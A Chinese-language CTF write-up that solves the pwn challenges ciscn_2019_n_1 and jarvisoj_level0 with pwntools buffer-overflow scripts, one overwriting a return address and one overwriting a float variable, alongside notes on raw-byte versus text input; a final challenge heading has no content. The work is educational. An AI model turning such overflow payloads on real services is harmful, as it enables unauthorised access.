



## ciscn_2019_n_1

checksec查文件保护机制  
  
ida静态分析  
  
这里可以看见核心逻辑，定义了两个数组，我们写入的是v1数组，所以不管我们输入什么，v2没变，一定不是11.28125，会无法通过if判断。所以这里有两种思路的解法，一种就是通过覆盖else的返回地址直接去执行system("cat /flag")，还有一种思路就是通过溢出将v2的值改写成11.28125通过if判断。这里给出两种exp：
- 第一种覆盖返回地址：
```python
from pwn import *

context(arch = 'amd64', os = 'linux')

io = remote("2bb077f9cfdeab543ccd050a.tcp-ctf2.dasctf.com", 9999, ssl=True, sni="2bb077f9cfdeab543ccd050a.tcp-ctf2.dasctf.com")

payload = b'a' * 56

system_addr = 0x4006BE
payload += p64(system_addr)

io.sendline(payload)

io.interactive()
```
- 第二种数组越界写入：
```python
from pwn import *

context(arch = 'amd64', os = 'linux')

io = remote("2bb077f9cfdeab543ccd050a.tcp-ctf2.dasctf.com", 9999, ssl=True, sni="2bb077f9cfdeab543ccd050a.tcp-ctf2.dasctf.com")

payload = b'a' * 44
payload += struct.pack('<f', 11.28125) #此处利用struct.pack将浮点数转化成原始字节

io.sendline(payload)

io.interactive()
```

>[!info] 原始字节 与 文本  
>在pwn题中一般是两大类输入方式
>
>A.原始字节输入（发bytes）  
>程序直接把这些字节写进内存，不解析内容：  
>
>| 函数 | 说明 |
>| --- | --- |
>|read(0, buf, n)|读n字节原始数据|
>|gets(buf)|读到换行，原始字节|
>|fgets(buf, n, stdin)|同 gets，有长度|
>|recv / recvfrom|网络原始字节|
>|memcpy前的输入|原样拷贝|  
>
>这类题目，构造的payload就是内存布局本身，必须发原始字节
>
>B.文本输入（发ASCII字符串）  
>程序把你发的字节当字符串解析，再转换成数值/逻辑：  
>
>| 函数 | 说明 |
>| --- | --- |
>|scanf("%d/%f/%s", ...)|按格式解析文本|
>|atoi/atof/strtol/strtod|字符串转数字|
>|strcmp(buf, "password")|字符串比较|
>|system / execve 前的命令拼接|文本|  
>
>这类题目，发送的是人类可读的ASCII，程序自主解析

## jarvisoj_level0

checksec查文件保护机制  
  
ida静态分析，在vulnerable_function函数中发现缓冲区溢出漏洞，并且在callsystem中直接发现了后门函数，ret2text题目  
  
exp如下：
```python
from pwn import *

context(arch = 'amd64', os = 'linux')

io = remote("da0bcdb8a5f05bcb29995b6e.tcp-ctf2.dasctf.com", 9999, ssl=True, sni="da0bcdb8a5f05bcb29995b6e.tcp-ctf2.dasctf.com")

payload = b'a' * 136

system_addr = 0x40059A
payload += flat([system_addr])

io.sendline(payload)

io.interactive()
```

## get_started_3dsctf_2016


